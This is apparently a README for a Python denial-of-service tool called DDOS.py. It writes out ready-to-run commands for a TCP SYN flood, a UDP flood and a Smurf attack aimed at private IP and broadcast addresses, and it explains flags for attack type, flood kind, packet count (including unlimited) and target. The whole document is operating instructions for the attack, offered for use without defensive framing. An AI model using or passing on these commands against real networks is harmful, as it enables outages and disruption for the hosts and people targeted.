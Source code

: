 # Syntax to execute the DDOS script

Example 1 : Execute  a TCP SYN attack
      
      python DDOS.py -toa tcp -fl syn -c X -d 192.168.1.9
      
      -toa : Type of attack you want to perform (TCP,UDP,etc.)
      -fl  : What kind of attack to perform in the above mentioned type (Syn flood, Reset flood , Ack flood, etc.)
      -c   : How many number of packets you want to push on the network while executing this script('X' denotes infinte number of packets)
      -d   : Destination network IP address
      
Example 2 : Execute UDP flood attack. Push 10 packets to destination.

      python DDOS.py -toa udpflood -c 10 -d 192.168.1.9
   
Example 3 : Execute a Smurf attack

      python DDOS.py -toa ping -fl pod -c X -d 192.168.1.15

In my case 192.168.1.15 is the broadcast address.


To display help command:
      
      python DDOS.py --help
